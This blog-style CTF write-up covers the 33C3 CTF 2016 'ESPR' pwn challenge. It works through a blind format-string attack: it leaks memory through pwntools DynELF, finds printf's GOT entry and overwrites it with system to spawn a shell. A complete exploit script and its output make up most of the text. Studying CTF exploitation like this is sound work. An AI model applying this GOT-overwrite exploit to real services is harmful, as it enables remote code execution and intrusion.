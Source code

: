 ```yaml
---
title: 33C3 CTF 2016 -- ESPR
comments: true
permalink: "/:title/"
date: 2016-12-29 22:52
tags:
- 33C3
- CTF
- Python
- Pwnable
- format_string
categories:
- write-ups
---
```


**Category:** pwn  
**Points:** 150

<!-- more -->  

This time there's no binary or libc.so provided, only an image looks like this:
```

eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

Interesting...

So apparently the program has two vulnerabilities: **stack overflow** & **format string**. Since we can't actually exploit the stack overflow vulnerability (the program likely won't return because of the infinite loop), we'll have to focus on the format string vulnerability and exploit the service without having the binary file.

So how are we gonna do this? Fortunately, [pwntools](https://github.com/Gallopsled/pwntools) is here to rescue! **By using the amazing [DynELF](http://docs.pwntools.com/en/stable/dynelf.html) module, we're able to resolve & leak some address without the need for binary!** 

First we'll need a `leak` function to let pwntools able to leak data at an arbitrary address. Here we exploit the format string vulnerability to leak an arbitrary address: 
```python
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```
Then we need a pointer into the binary. I got the pointer by entering `%30$p`, which returned `0x40060d`. Now we can use the `DynELF` module to help us resolve some function addresses.

First we'll need to resolve the address of `printf` and `system`:
```python
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')

log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```

It took a while because of `sleep(1)`, and pwntools will need a lot of addresses to resolve those functions.
```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

OK so now we know the offset between `printf` and `system`. Next time we'll just have to leak `printf@got.plt`, calculate `system`'s address and use it to overwrite `printf`'s GOT entry, finally we'll be able to hijack `printf`'s GOT and call `system("sh")` by entering "sh".

But first we'll have to know the address of `printf@got.plt`. Luckily, not only can `DynELF` resolve function addresses, it can also resolve some useful addresses such as the pointer to the `.dynamic` section:
```python
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

Once we got the `.dynamic` section's address, we can use it to locate the `.got.plt` area:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python
cnt = 0
while True:
    addr = dynamic_ptr + 0x10*cnt
    ret = leak(addr)
    if ret == "\x03\x00": #TYPE PLTGOT
        addr += 8
        for i in xrange(8):
            ret = leak(addr+i)
            print "ret:", ret.encode('hex')
        break
    else:
        cnt += 1
```

Now we can find where `printf@got.plt` is, by leaking all the GOT entry and compare the low 12 bits of the function address (see if it ends with `550`):
```python
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

Finally, we can start exploiting the service:
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
	r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":

    r = remote(HOST, PORT)

    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote

    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))

    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))

    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```

flag: `33C3_f1rst_tshirt_challenge?!`
